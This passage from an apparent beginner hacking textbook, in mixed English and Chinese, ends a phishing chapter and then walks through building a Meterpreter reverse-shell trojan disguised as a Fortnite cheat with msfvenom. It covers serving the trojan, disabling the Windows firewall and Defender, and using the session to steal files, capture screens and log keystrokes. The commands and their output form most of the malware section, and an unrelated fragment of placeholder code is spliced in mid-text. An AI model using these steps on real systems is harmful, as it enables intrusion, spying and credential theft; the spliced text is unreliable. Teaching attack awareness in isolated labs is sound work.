I made it look like someone tried to hack the user’s account from North Korea to motivate them to click the link to check their “Security settings.” Next, I added a hyperlink for the text “Security settings” that takes the user to my cloned login page. In most email programs, you can insert a hyperlink by highlighting the text you want to turn into a link, clicking the chain-link icon (boxed in Figure 5-5), and entering the link address. With the suspicious IP address hidden behind the text “Security settings,” people are more likely to click through to the phishing site.

Now that you understand phishing attacks, let’s look at how you can defend yourself against them.

## Protecting Yourself Against Phishing Attacks

You can protect yourself from email scams with just a few simple tips:

*   Mouse over links in your email (don’t click them!) to see if the link address is suspicious, either because it’s misspelled or unusually long/numeric. The address usually appears at or near the bottom of the screen in your browser or email program when you do this. (You can also use `VirusTotal` to check a link address for malware, as we did back in Chapter 4.)

*   Check the `From:` and `To:` fields of the email to make sure both are authentic. Look for misspellings or different domain names, like `gmail.com` instead of `yourbank.com`, in the sender’s address.

*   If you’re asked for personal information, think carefully about who’s asking for it, what’s being asked for, and why the information is needed.

*   If you’re ever unsure about the source of an email, don’t click or open anything. Call the person or company (using a real phone number, not one found in the email) to verify any important transactions or urgent problems.

If you suspect that an email is fake, open a separate web browser window and visit the real website by entering the real URL or searching online for the business name. Double-check the address bar to make sure the URL is what you expect. Even then, only enter your username and password into a login page if the site is secure. You can tell if a website is secure if the URL begins with `https://` and the secure website lock symbol appears in your browser’s address bar.

## The Takeaway

In this chapter, you learned that social engineers use human emotions against their victims to lure them into making the wrong choice, both in person and online. You learned about the most common online social engineering attack—phishing.

To understand how easy and effective phishing is, you cloned a login page with the Social Engineering Toolkit (`SET`) in Kali Linux that allowed you to harvest the credentials of unsuspecting users. You created a phishing email linking to the cloned page, and you saw how attackers can create more convincing emails by starting with a real email, then changing the text and links.

You learned to protect yourself from phishing attacks by looking carefully at the `From:` and `To:` fields in any email asking you to click a link, open a document, or take any action out of the ordinary. You also learned to check links by mousing over each one and examining the URL. Strange or misspelled web addresses, as well as unusually long or numeric IP addresses in a URL, can be clues that the address might be from a phishing attack. When in doubt, don’t click any links in an email. Instead, open a separate browser window, type the domain name of the real website where you have an account, and log in directly.

In the next chapter, you’ll add another important tool to your hacking repertoire: malware. Malware will allow you to remotely take over another computer so you can steal files, log keystrokes, and even access the user’s webcam.

# 6  

Remote Hacking with Malware 


In this chapter, you’ll learn how attackers use malware over the internet to infect and control all kinds of computing devices from anywhere in the world. Short for *malicious software*, `malware` is any software designed to steal or damage data or to disrupt computer systems or users.

If an attacker can trick you into opening a malicious attachment, video, or app, they can take control of your computer, smartphone, or other internet-connected device. To protect yourself, you need to understand how easy it is for a black hat hacker to create a virus and infect your computer. Once a device is infected, the attacker can often see *everything*—including your files, your keystrokes, your screen, and even what your webcam sees!


在本章中，你将在 Kali 虚拟机上安全地创建一个病毒，并通过虚拟网络感染你的 Windows 虚拟机。然后，你将从 Kali 工作站控制 Windows 虚拟机，窃取数据、按键、摄像头视频等——就像攻击者所做的那样。你将负责任地执行这些操作，以确保恶意软件不会逃出你的虚拟环境。在此过程中，你将学习如何保护自己免受互联网上大多数恶意软件的侵害。

要执行我们的攻击，我们将使用 Kali 最著名的工具之一，Metasploit。Metasploit 框架是由计算机安全公司 Rapid7 维护的开源渗透测试工具包。之所以称其为框架，是因为它是一个用于开发、测试和执行漏洞利用的完整软件平台。`exploit` 是一种旨在利用计算机系统中漏洞的攻击。

Metasploit 被称为黑客的瑞士军刀，因为它内置了许多有用的工具。事实上，Metasploit 包含了高达 2,000 个漏洞利用，而且还在不断增加，包括针对 Windows、macOS、Linux、Microsoft Office、Adobe 产品、大多数浏览器、iOS、Android 等的漏洞利用。

## 构建你自己的病毒

我们将首先在 Kali 虚拟机上构建恶意软件，以通过第 3 章中创建的 PublicNAT 网络控制你的 Windows 虚拟机。具体来说，我们将创建一个 `trojan`，这是一种看起来无害但可以让攻击者控制你的计算机的恶意软件。木马有时被称为 `remote access trojans` `(RATs)`，因为它们允许攻击者通过互联网从世界任何地方远程控制目标计算机——无需物理访问。

木马通常伪装成人们可能想下载并运行的文件，例如最新热门歌曲或电影的盗版副本，或者是流行视频游戏的作弊程序。作为示例，我们将把我们的木马命名为 `Fortnite_cheat_mode.exe`。登录到你的 Kali 虚拟机，让我们来创建一些恶意软件！你可能会惊讶于它是多么容易。

1.  在你的 Kali 虚拟机中，点击左上角的 Kali 图标，然后进入 `08 - Exploitation Tools`▶`Metasploit Framework`。如果要求输入 sudo 密码，请输入 `kali`。Metasploit 框架控制台（`msfconsole`）将启动，通常顶部会有一段有趣的 ASCII 文本艺术，如 Figure 6-1 所示。

2.  你应该会看到一个标记为 `msf6 >` 的命令提示符，即“Metasploit 框架，版本 6”的缩写。输入 `ip addr` 以检查你的 Kali 虚拟机的 IP 地址，并确保它已连接到 PublicNAT 网络：

    ```
    msf6 > ip addr
    ```

    

    Figure 6-1: Startup information for the Metasploit Framework console, with the Metasploit `msf6 >` command prompt at the bottom left

3.  在 `eth0:` 部分下查找以 `inet` 开头并后跟 IP 地址的行：

    ```
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000 link/ether 08:00:27:23:ff:90 brd ff:ff:ff:ff:ff:ff inet 10.0.9.x/24 brd 10.0.9.255 scope global noprefixroute eth0 1
    ```

    只要地址以 `10.0.9` 开头，你就处于在第 3 章中创建的 PublicNAT 网络上，可以开始了。请记下 IP 地址；你需要在几个命令中输入它。如果你没有看到 `10.0.9.x` 作为你的 IP 地址，请回到第 3 章，第 26 页，创建 PublicNAT 网络，或第 27 页，将你的 Kali 虚拟机正确连接到它。

4.  输入以下两行，将 IP 地址中的 `x` 替换为你刚刚查找的数字：

    ```
    msf6 > msfvenom  -p  windows/meterpreter/reverse_tcp  \ > LHOST=10.0.9.x  -f  exe  -o  ~/Desktop/Fortnite_cheat_mode.exe
    ```

5.  你现在应该在桌面上看到一个名为 `Fortnite_cheat_mode.exe` 的文件，如 Figure 6-2 所示。如果看不到该文件，请打开文件资源管理器并前往 `/home/kali/Desktop/` 找到它。

    

    Figure 6-2: The `msfvenom` tool creates a trojan named `Fortnite_cheat_mode.exe` and places it on the desktop (lower-left).

你现在已经创建了你的第一个木马——干得漂亮！只需在第 4 步中在 `msf6 >` 命令提示符下输入的两行命令即可。实际上，这只是一条长命令，但第一行末尾的反斜杠（`\`）让我们可以将命令延续到第二行。

那么该命令实际上做了什么？它告诉 Metasploit 的 `msfvenom` 工具创建一个包含 Meterpreter shell 的恶意软件，这是一个将允许我们从 Kali 对 Windows 虚拟机进行命令行（shell）控制的接口。我们通过输入 `LHOST=` 后跟 Kali 虚拟机的 IP 地址，告诉 Meterpreter shell 在哪里接收命令。`-f` `exe` 选项告诉 `msfvenom` 输出格式（`-f`）应为 Windows 可执行文件（`exe`）程序文件。`-o` 选项告诉 `msfvenom` 要输出的文件的名称和位置：一个名为 `Fortnite_cheat_mode.exe` 并保存到桌面（`~/Desktop/`）的文件。

### 共享恶意软件

现在我们有了一个木马 Windows 可执行文件，需要将其放入你的 Windows 虚拟机中。通常，攻击者会尝试通过电子邮件发送木马，但许多电子邮件程序会扫描附件中的恶意软件，而且你也不想通过个人电子邮件账户发送木马。相反，我们将创建一个共享文件夹，Windows 用户可以通过他们的网络浏览器访问它。

1.  在 msfconsole 窗口中输入此命令，在大多数 Linux 计算机上共享网络文件夹的默认位置创建一个名为 `share` 的文件夹：

    ```
    msf6 > sudo mkdir /var/www/html/share
    ```

2.  将木马复制到新文件夹中：

    ```
    msf6 > sudo cp ~/Desktop/Fortnite_cheat_mode.exe /var/www/html/share
    ```

3.  启动 Apache Web 服务器应用程序，以便文件夹可以通过网络访问：

    ```
    msf6 > sudo service apache2 start
    ```

4.  要确认木马现在可以供下载，请打开 Kali 虚拟机中的网络浏览器，然后访问 `http://<10.0.9.x>/share`，将 `<10.0.9.x>` 替换为你的 Kali 虚拟机的 IP 地址。你将看到一个类似 Figure 6-3 所示的网页。

    

    Figure 6-3: Thanks to Kali’s Apache web server, our trojan malware is now available on the (virtual) web!

### 监听木马“回家”

我们现在需要准备 Metasploit 以接收来自受感染 Windows 机器的传入连接（我们有时称之为 `phoning home`）。传入连接将允许我们发送恶意命令来远程控制机器。通常，攻击者会向数千名潜在受害者发送病毒电子邮件附件，等待看哪些人打开附件并被感染。在我们的案例中，我们将只感染一台 Windows 虚拟机。但是，通过遵循这些步骤，我们可以同样轻松地接收用于控制多台受感染计算机的连接。

1.  在 `msf6 >` 提示符下输入此命令，告诉 Metasploit 处理或接受来自受感染计算机的多个传入连接：

    ```
    msf6 > use exploit/multi/handler
    ```

    msfconsole 提示符将更改，以告知我们 `multi/handler` 漏洞利用已激活。

2.  现在告诉 Metasploit，木马的 `payload`——即我们交付的恶意程序——是一个 Meterpreter shell：

    ```
    msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    ```

    msfconsole 将响应 `PAYLOAD => windows/meterpreter/reverse_tcp`，以告知我们 Meterpreter payload 已被选中。


3. 输入 Kali 虚拟机的 IP 地址，以指示连接将从中进入的本地主机（请记住填写最后一个数字）：

```
msf6 exploit(multi/handler) > set LHOST 10.0.9.x
```

Metasploit 将响应 `LHOST => 10.0.9.x`，以指示本地主机选项已正确设置。

4. 最后，我们等待的时刻到了：启动漏洞利用！

```
msf6 exploit(multi/handler) > exploit -j 
```

`-j` 选项告诉 Metasploit 在后台运行处理程序，以便你在等待受感染机器连接到 Kali 虚拟机时可以使用 msfconsole。Metasploit 将确认漏洞利用正在后台运行，准备在 `10.0.9.x:4444`（即 Kali 虚拟机上的 4444 端口）上接受传入连接。

## 感染你的 Windows 虚拟机

我们的木马已准备就绪。现在是时候感染你的 Windows 虚拟机了。首先，我们将禁用几个 Windows 安全功能，这些功能通常会使用户更难做出诸如从互联网下载并打开可疑文件之类的愚蠢行为。然后，在关闭这些防护措施后，我们就要做的正是这种愚蠢的事情。

请记住，你的 Windows 虚拟机是为你安全地练习黑客技术而创建的。如果你把它搞砸了，例如感染了木马，你可以简单地删除 Windows 虚拟机并创建一个新的。考虑到这一点，在 VirtualBox 中启动你的 Windows 10 虚拟机，如果提示，请输入用户名 `IEUser` 和密码 `Passw0rd!`，让我们开始吧。

1. 在 Windows/Cortana 搜索栏中输入 `cmd` 以查找命令提示符。右键单击它并选择 **以管理员身份运行**。在弹出的询问是否允许此应用对设备进行更改的窗口中，单击 **是**。

2. 在出现的“管理员：命令提示符”窗口中，输入以下命令以关闭 Windows 虚拟机的防火墙：

```
C:\Windows\system32> netsh advfirewall set allprofiles state off
```

通常，`firewall` 会阻止来自外部计算机的不需要或恶意的流量，并可以防止你的计算机与恶意服务器建立可疑连接。运行此命令后，你可能会看到弹出消息“打开 Windows 防火墙”。Windows 正在警告你，关闭防火墙是危险的——确实如此！——但这正是我们想要的，用于这次首次远程黑客攻击。

3. 接下来，我们将关闭 Windows Defender，另一种安全工具。在搜索栏中输入 `virus` 并打开 **病毒和威胁防护** 设置。

4. 单击 **管理设置**，并将实时保护和云传递保护的切换按钮滑动到 **关闭**。Windows 会再次询问你是否允许此应用对设备进行更改。单击 **是**。你的 Windows 10 虚拟机现在和地球上四分之一的电脑一样脆弱。

5. 打开 Edge 网络浏览器并访问 `http://<10.0.9.x>/share/`。

6. 单击你的木马并选择 **保存** 以将文件下载到 Windows 虚拟机的 `Downloads` 文件夹。

7. 真相大白：打开 Windows 虚拟机的 `Downloads` 文件夹并双击木马可执行文件来运行它。

8. 结果发现，Windows 10 电脑还有一层病毒防护，用于防止像我们刚才犯的那种愚蠢错误：Windows Defender SmartScreen 会弹出警告，称它“阻止了未识别的应用程序启动”，如 图 6-4 所示。单击 **更多信息**，然后单击 **仍要运行**。

你现在已经控制了你的第一台计算机！你在 Windows 虚拟机上看不到任何事情发生，但如果你切换回 Kali 虚拟机，应该会在 msfconsole 中看到类似以下的内容：

```
[*] Sending stage (179779 bytes) to 10.0.9.5
[*] Meterpreter session 1 opened (10.0.9.4:4444 -> 10.0.9.5:49830) at 2021-06-11 12:39:46 -0400
```

受感染的 Windows 虚拟机已回连 Kali 并建立了连接（也称为 `session`）。恭喜：Windows 虚拟机现在正在等待你的命令！



图 6-4：Windows Defender SmartScreen 最后一次尝试保护你的 Windows 虚拟机。

## 使用 Meterpreter 控制你的 Windows 虚拟机

现在，我们已经在 Kali 和 Windows 虚拟机之间建立了连接，准备好从 Metasploit 开始操纵 Windows 机器。首先，在 Metasploit 终端窗口中输入 `sessions` 以查看活动 Metasploit 连接列表：

```
msf6 exploit(multi/handler) > sessions
Active sessions
=============== Id  Name  Type                     Information                       Connection --  ----  ----                     -----------                       ---------- 1         meterpreter x86/windows  MSEDGEWIN10\IEUser @ MSEDGEWIN10  10.0.9.4:4444 -> 10.0.9.5:63750 (10.0.9.5)
```

如你所见，我们已连接到名为 MSEdgeWin10 的受感染 Windows 10 机器，用户名为 `IEUser`——这就是你的 Windows 10 虚拟机！我们的会话 ID 号为 1。如果你在其他机器上也运行了木马，你会看到列出多个会话，每个会话都有自己的 ID 号。同样，如果你需要与 Windows 虚拟机重新建立连接，它将以不同的 ID 号列出，例如 2。

输入 `sessions -i 1` 以开始与 Windows 虚拟机交互：

```
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter >
```

命令提示符会更改为 `meterpreter >`，以指示我们正在与远程 Windows 虚拟机上的 Meterpreter shell 交互。让我们尝试几个命令。输入 `sysinfo` 以查看有关计算机的一些信息，例如其操作系统 (OS)、系统语言等：

```
meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (Build 17763).--snip--
```

现在让我们尝试另一个命令，`pwd`，即 `print working directory` 的缩写，以查看 Meterpreter shell 正在从哪个位置运行：

```
meterpreter > pwd
C:\Users\IEUser\Downloads
```

这告诉我们，Meterpreter shell 正在从 Windows 虚拟机的 `Downloads` 目录运行——也就是我们的木马所在的位置。

输入 `help` 以列出你可以从 Meterpreter shell 远程在 Windows 虚拟机上运行的一些最常用命令。有运行程序、终止运行进程、关闭或重启远程计算机、清除事件日志（以在黑客攻击时掩盖痕迹）、捕获按键、截屏、监视远程用户的桌面或网络摄像头的命令，仅举几例。总共有超过 100 个命令，攻击者可以使用这些命令几乎完全控制一台计算机。这些命令的部分列表显示在 图 6-5。

为了了解威胁有多严重，让我们看看攻击者通过受感染文件黑客攻击我们的文件、键盘、网络摄像头等有多容易。我们使用的每个命令并不一定每次尝试都会成功；你可能需要多次尝试。然而，探索这些命令可能造成的损害应该激励你 `never` 不要从随机网页或电子邮件附件安装软件。



图 6-5：我们可以用来控制受感染 Windows 虚拟机的一系列令人毛骨悚然的酷炫 Meterpreter 命令

### 查看和上传文件

我们将通过浏览计算机的文件并将木马的备份副本上传到 Windows 虚拟机，开始对 Windows 虚拟机的利用。

1. 在 `meterpreter >` 命令提示符下，输入以下命令以将目录更改为受感染虚拟机的 `Documents` 文件夹并列出文件夹内容：


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```
[/content]

[content]
```
meterpreter > cd  ../Documents
meterpreter > ls
Listing: C:\Users\IEUser\Documents
==================================
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Music
40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Pictures
40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Videos
40777/rwxrwxrwx   0     dir   2019-03-19 07:29:40 -0400  WindowsPowerShell
100666/rw-rw-rw-  402   fil   2019-03-19 06:49:49 -0400  desktop.ini
```

你会看到音乐、图片、视频等文件夹，就像任何其他 Windows 计算机一样。攻击者可以使用这些命令浏览目标计算机并查找可窃取的有趣文件。

2. 将 `Fortnite_cheat_mode.exe` 恶意软件文件的副本从 Kali VM 上传到 `Documents` 文件夹：

```
meterpreter > upload /home/kali/Desktop/Fortnite_cheat_mode.exe 
[*] uploading  : /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
[*] uploaded   : /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
```

3. 切换回 Windows 10 VM 并打开 `Documents` 文件夹。你应该能看到新上传的木马文件，如 图 6-6 所示。



图 6-6：我们可以从 Kali 将文件上传到受感染的 Windows 10 VM。

现在你在 Windows VM 上有了木马的备份，如果 Windows Defender 重新启动并删除 `Downloads` 文件夹中的木马，你随时可以将其从 `Documents` 复制并粘贴到 `Downloads`。一旦有人通过网络或电子邮件打开单个受感染的文件，攻击者通常会在计算机的不同位置上传多个病毒，以确保他们能够保持对目标机器的控制。

## 从受害者计算机下载文件

Meterpreter 中的 `download` 命令允许你从受害者计算机下载文件。要尝试一下，我们将在 Windows VM 上创建一个示例文本文件，然后将其窃取。

1. 在 `meterpreter >` 提示符处输入此命令，以远程控制受害者计算机的 Windows 命令行终端，即 `shell`。

```
meterpreter > shell
Process 4952 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.
```

2. 现在创建一个名为 `hacked.txt` 的文件，内容为 “You’ve been hacked!”

```
C:\Users\IEUser\Documents> echo "You've been hacked!" > hacked.txt
echo "You've been hacked!" > hacked.txt
```

3. 检查 Windows VM 上的 `Documents` 文件夹。你应该能看到我们刚刚从 Kali 远程创建的 `hacked.txt` 文件。

4. 回到 Kali，退出 Windows shell 并返回 Meterpreter：

```
C:\Users\IEUser\Documents> exit
exit
```

5. 现在将文件从 Windows 下载到你的 Kali VM：

```
meterpreter > download hacked.txt
[*] Downloading: hacked.txt -> hacked.txt
[*] Downloaded 24.00 B of 24.00 B (100.0%): hacked.txt -> hacked.txt
[*] download   : hacked.txt -> hacked.txt
```

6. 最后，使用以下命令查看文件内容，即我们的 “You’ve been hacked!” 消息。

```
meterpreter > cat hacked.txt
"You've been hacked!"
```

我们已成功从受害者的计算机下载文件！在此示例中，这是一个我们（远程）从攻击 VM 创建的文件，但真正的攻击者可以下载更重要的信息。当 Windows 用户运行 Meterpreter 木马时，Windows 用户可访问的任何文件都会变成攻击者可下载的文件：客户列表、家庭照片、预算电子表格、税务表格、银行对账单、员工数据、医疗记录、有价值的知识产权，或 `any` 类型的敏感文件，只需几次按键即可被窃取。

## 查看受害者计算机的屏幕

像 Meterpreter shell 这样的木马通常被称为 `backdoors`，因为它们让攻击者绕过你所有其他安全措施（包括登录）来访问你的计算机。这就像从电影院的后门溜进去一样。当你在 Windows VM 上点击 Meterpreter 木马文件时，你为你的计算机打开了一扇秘密之门，允许我们上传和下载文件。但情况更糟：你已为我们的攻击 VM 提供了一个后门，用于查看你的计算机屏幕、记录你的按键，甚至打开你的网络摄像头！为了证明这一点，我们将尝试从 Kali 中查看 Windows VM 的屏幕。

1. 在 Meterpreter shell 中输入 `screenshot -v true`。使用此命令，攻击者可以发现受害机器的用户正在看到什么。

```
meterpreter > screenshot -v true
Screenshot saved to: /home/kali/Desktop/kYpTvFbl.jpeg 
```

2. 应该会弹出一个窗口，显示来自 Windows VM 的屏幕截图，如 图 6-7 所示。



图 6-7：从 Windows VM 捕获屏幕截图

3. 你甚至可能能够进一步实时监视用户的计算机屏幕。在 Meterpreter 中，输入 `screenshare` 命令：

```
meterpreter > screenshare
[*] Preparing player...
[*] Opening player at:  /home/kali/oDgBGMiY.html
[*] Streaming...
```

此命令并不总是有效，并且可能会使你的两个 VM（以及你的主机计算机）运行缓慢，因为它试图通过虚拟网络将 Windows 10 VM 的计算机屏幕的实时视频流传输到 Kali VM。但如果它有效，你将在 Kali 的浏览器窗口中看到 Windows 10 VM 的桌面，如 图 6-8 所示。

4. 切换到你的 Windows VM，移动一些文件或窗口，清空回收站，或打开一个网页。如果你有多个显示器或足够的空间同时显示两个 VM，你可以通过 Kali 浏览器中的流媒体视频观察你在 Windows VM 中所做的一切。毛骨悚然，对吧？

5. 点击回到 Kali 中的 Meterpreter 终端窗口，并按 CTRL-C 停止 screenshare。


图 6-8：`screenshare` 命令允许 Kali 上的攻击者通过互联网监视你的 Windows 桌面。

## 记录按键

一旦控制了一台机器，攻击者就可以记录用户的每一个按键。这使攻击者能够记录用户正在输入的内容，包括搜索、命令、密码等。让我们看看它是如何工作的。

1. 在 Meterpreter shell 中输入 `keyscan_start` 以开始记录目标计算机的按键：

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```

2. 切换回 Windows VM，在搜索栏中输入 `notepad`，并打开记事本应用。

3. 将此信息输入到记事本中：

```
My credit card number is not 1111 1111 1111 1111with an expiration of 11/2028and a cvv of 111
```

当然，你永远不应该以明文形式在计算机上存储此类敏感信息，但世界上许多人确实如此。

4. 切换回 Kali VM 并输入 `keyscan_dump` 以查看记录的按键：

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
notepad<CR>
<Shift>My credit card number is not 1111 1111 1111 1111<CR>
with an expiration of 11/2028<CR>
and a cvv of 111<CR>
```


Meterpreter 捕获了 Windows 10 用户的所有按键，包括 `<CR>`（即 *carriage return*，ENTER 键的另一种叫法）等特殊键。在文本文件中输入内容可能看起来不太现实，但你可以想象，用户正在在线购物网站上输入信用卡号，或是在银行网页门户上输入用户名和密码登录。

5. 在 Meterpreter shell 中输入 `keyscan_stop` 以停止捕获 Windows 计算机的按键：

```
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

### 通过摄像头进行监视

如果记录按键还不够令人毛骨悚然，那么查看受害者计算机的摄像头应该会让你想搬到一个没有互联网的偏远岛屿（或者至少说服你用便利贴遮住摄像头）。将摄像头连接到 Windows 虚拟机可能无法工作，但即使你无法亲自尝试此攻击，它也能可靠地攻击带有摄像头的真实 Windows 计算机。要继续，你需要一个摄像头（笔记本电脑内置的或连接到台式机的 USB 摄像头），并有耐心按照前面警告中给出的步骤重新运行几次整个攻击过程。

1. 检查你的摄像头是否出现在 Windows 虚拟机菜单栏的 Devices▶Webcams 下。如果是，选择其名称并跳至步骤 6。否则，我们需要将摄像头连接到虚拟机。

2. 关闭 Windows 虚拟机并选择 **Power off the machine**。

